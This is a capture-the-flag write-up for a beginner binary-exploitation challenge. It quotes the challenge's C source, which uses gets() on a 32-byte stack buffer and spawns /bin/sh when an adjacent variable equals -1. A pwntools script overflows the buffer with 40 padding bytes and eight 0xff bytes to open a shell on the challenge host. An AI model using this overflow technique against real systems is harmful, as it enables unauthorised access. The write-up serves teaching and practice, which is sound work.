


# beginner-generic-pwn-number-0

rob keeps making me write beginner PWN! I'll show him...

```
nc mc.ax 31199
```

[beginner-generic-pwn-number-0.c](http://ctf.infury.org:8000/files/671bb230792e8117cbaefa425bcdadc9/beginner-generic-pwn-number-0.c?token=eyJ1c2VyX2lkIjoxNCwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6NTJ9.YPxKrQ.NvnGQ3Z4QlPwWRU8Bkd2bA1LEn4)

[beginner-generic-pwn-number-0](http://ctf.infury.org:8000/files/c8572e6f2aedbcfe587622b4204bb099/beginner-generic-pwn-number-0?token=eyJ1c2VyX2lkIjoxNCwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6NTN9.YPxKrQ.-kLC2FijmZ05_xnWuNvrlCzOcAg)

## WP

Open the source code we can find the logic of the program: gets a user input into the input buffer and then compare the variable `inspirational_message_index` with `-1`. If `inspirational_message_index` equals `-1` then we will access the bash of the host.

```c
srand(time(0));
long inspirational_message_index =
    rand() % (sizeof(inspirational_messages) / sizeof(char *));
char heartfelt_message[32];

// ...

gets(heartfelt_message);

if (inspirational_message_index == -1) {
  system("/bin/sh");
}
```

So what we need to do is overflow the input buffer to change the value of `inspirational_message_index` from its original value to `0xffffffffffffffff` (this is because its a `long` type variable and computer represents negative numbers by using complement).



Disassembly the program and we find that the `char` array actually takes up `0x28` (`0x38 - 0x10`) bytes, so we need `40` characters to fill the buffer first. Then we will send `8` `0xff` bytes to let the value of `var_10` ( `inspirational_message_index` in source code) be `-1`.

```python
from pwn import *

conn = remote('mc.ax', 31199)
payload = b'a' * 40 + b'\xff\xff\xff\xff\xff\xff\xff\xff'
conn.sendline(payload)
conn.interactive()
```

Then we can get the access of bash successfully.

Use command `ls` to find the flag file, then use command `cat` to get its content.



